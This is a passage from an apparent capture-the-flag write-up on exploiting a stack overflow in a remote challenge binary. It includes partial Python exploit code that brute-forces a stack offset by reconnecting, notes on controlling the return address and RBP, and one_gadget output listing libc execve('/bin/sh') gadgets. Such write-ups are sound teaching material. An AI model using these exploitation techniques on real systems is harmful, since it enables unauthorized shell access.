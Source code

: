 Let's make this reproducible by reconnecting to the remote until we get the
offset we want (it's `0x30` bytes in the example below):

```python
    ...

    def reconnect_and_resetup(self):
        self.disconnect()
        self.connect()
        self.setup_elf_and_libc()
        self.setup_stack_addresses()

    def setup_stack_addresses(self):
        ...
        self.addr_main_loop_rbp = self.addr_stack_prompts - 0x10
...

while not hex(chall.addr_main_loop_rbp).endswith('30'):
    chall.reconnect_and_resetup()

input('Pause. Attach GDB, and press Enter to continue...')
chall.create_custom_card_prompt(cyclic(1024), 0)

```

With that trick in place, we evaluate each of the `0x10` ... `0xf0` RBP shifts
independently, and choose one that gets us as far as possible without crashing
while being able to control as much values as possible.

This turns out to be offset `0x70`: it goes without an issue to the `4) Exit`
step, where it crashes trying to follow the return address at the offset `968`
of the cyclic payload we supplied, while `rbp` at that point has the value from
the offset `960` of the cyclic payload.

Now we need somewhere useful to return to. As we examine gadgets available in
the challenge binary itself, there's completely nothing of interest. So it's
gotta be `libc` then.

A straightforward ROP chain with `execve()`, a `/bin/sh` string, and arguments
in registers happens not to fit into the available space, parts of it being
overwritten along the way.

Maybe `one_gadget` then?

```ruby
❯ one_gadget libc.so.6 
0xebcf1 execve("/bin/sh", r10, [rbp-0x70])
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebcf5 execve("/bin/sh", r10, rdx)
constraints:
  address rbp-0x78 is writable
  [r10] == NULL || r10 == NULL || r10 is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebcf8 execve("/bin/sh", rsi, rdx)
constraints:
  address rbp-0x78 is writable
  [rsi] == NULL || rsi == NULL || rsi is a valid argv
  [rdx] == NULL || rdx == NULL || rdx is a valid envp

0xebd52 execve("/bin/sh", rbp-0x50, r12)
constraints:
  address rbp-0x48 is writable
```